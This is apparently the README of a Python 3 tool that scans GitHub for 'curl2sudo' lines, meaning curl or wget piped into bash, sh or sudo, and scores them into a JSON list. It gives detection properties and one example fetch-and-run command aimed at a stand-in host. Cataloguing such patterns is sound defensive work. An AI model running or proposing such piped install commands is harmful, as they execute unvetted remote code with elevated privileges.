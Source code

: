 This is a Python3 project that looks on github for offending curl2sudo lines
and dumps them to offenders.json.

The score is computed based on how 'bad' it is and is almost complete arbitrary.
Notes
=====

Properties that an offender probably has:

* curl or wget at the beginning of the line
* http or https somewhere in the line
* a bash or sh at the end
* a pipe symbol between the curl/wget and the bash/sh

Properties an offender may have:

* Fancy execution `bash < <(curl https://ownmybox.me/install.sh)`
* $1 or other weird ways to get an arbitrary URL

Properties and offender gets bonus points for:

* Having a sudo in the line (!!!)
* su somewhere in the line (less likely)

